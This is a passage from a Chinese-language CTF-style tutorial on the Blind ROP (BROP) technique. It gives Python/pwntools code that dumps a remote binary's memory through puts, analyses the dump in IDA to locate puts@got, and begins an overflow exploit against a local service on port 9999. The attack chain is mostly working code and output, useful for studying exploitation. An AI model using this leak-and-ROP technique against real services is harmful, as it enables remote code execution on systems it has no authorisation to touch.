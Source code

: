 ```python
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了'\x00'，因为puts是输出字符串，字符串是以'\x00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然后按下c,将此处的数据转换为汇编指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

这说明，puts@got的地址为0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
```